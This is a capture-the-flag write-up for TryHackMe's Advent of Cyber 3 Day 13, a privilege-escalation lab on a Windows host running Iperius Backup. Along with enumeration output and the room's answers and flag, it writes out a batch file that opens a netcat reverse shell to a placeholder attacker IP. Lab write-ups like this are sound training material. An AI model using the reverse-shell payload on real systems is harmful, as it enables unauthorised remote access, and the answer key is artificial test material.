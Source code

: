 # TryHackMe [Advent of Cyber 3](https://tryhackme.com/room/adventofcyber3) Day 13
### References
* `bzyo`. (2019, May 17). Iperius Backup 6.1.0 - Privilege Escalation. Exploit Database. https://www.exploit-db.com/exploits/46863
* HuskyHacks. (2021). You have no idea how itchy this beard was | TryHackMe Advent Of Cyber Day 13! [YouTube Video]. In YouTube. https://youtu.be/zIR7Is90N30

## What is the username which starts with `p`?
```powershell
PS C:\Users\McSkidy> net user

User accounts for \\THE-GRINCH-HACK

-------------------------------------------------------------------------------
Administrator            Alabaster                DefaultAccount
Guest                    McSkidy                  pepper
Rudolph                  sugarplum                thegrinch
WDAGUtilityAccount
```

**Answer**: `pepper`
## What is the OS version?
```powershell
PS C:\Users\McSkidy> systeminfo | findstr "OS"
OS Name:                   Microsoft Windows Server 2019 Datacenter
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
BIOS Version:              Xen 4.2.amazon, 8/24/2006
```

**Answer**: `10.0.17763 N/A Build 17763`
## What backup service did you find running on the system?
```
PS C:\Users\McSkidy> wmic service list | findstr "Backup"
TRUE	TRUE	Iperius Backup Service	0	Win32_Service	FALSE	Iperius Backup Service	Normal	0	IperiusSvc	C:\Program Files (x86)\Iperius Backup\IperiusService.exe	3224	0	Own Process	TRUE	Auto	.\thegrinch	Running	OK	Win32_ComputerSystem	THE-GRINCH-HACK	0	0
```

**Answer**: `IperiusSvc`
## What is the path of the executable for the backup service you have identified?
**Answer**: `C:\Program Files (x86)\Iperius Backup\IperiusService.exe`
## Run the `whoami` command on the connection you have received on your attacking machine. What user do you have?
1. Make a `.bat` file with the following code:
```
@echo off
C:\Users\McSkidy\Downloads\nc.exe <OPENVPN_IP> 1337 -e cmd.exe
```
1. Run `nc -lvnp 1337` on the attacking machine
2. Follow the instruction under the [exploit procedure](https://www.exploit-db.com/exploits/46863) (`bzyo`, 2019)
3. A reverse shell will connect to your `nc` listener within a minute

```
C:\Program Files (x86)\Iperius Backup>whoami
the-grinch-hack\thegrinch
```

## What is the content of the `flag.txt` file?
```
C:\Program Files (x86)\Iperius Backup> cd C:\Users\thegrinch\Documents
C:\Users\thegrinch\Documents>dir
11/10/2021  06:21 AM                13 flag.txt
11/10/2021  06:23 AM               222 Schedule.txt
               2 File(s)            235 bytes
               2 Dir(s)  15,627,669,504 bytes free
C:\Users\thegrinch\Documents>type flag.txt
THM-73663522
```

**Flag**: `THM-73663522`
## The Grinch forgot to delete a file where he kept notes about his schedule! Where can we find him at 5:30?
```
C:\Users\thegrinch\Documents>type Schedule.txt
Daily Schedule:
4:00 - wallow in self-pity 
4:30 - stare into the abyss 
5:00 - solve world hunger, tell no one
5:30 - jazzercize
6:30 - dinner with me. I can�t cancel that again 
7:00 - wrestle with my self-loathing
```

**Answer**: `jazzercize`
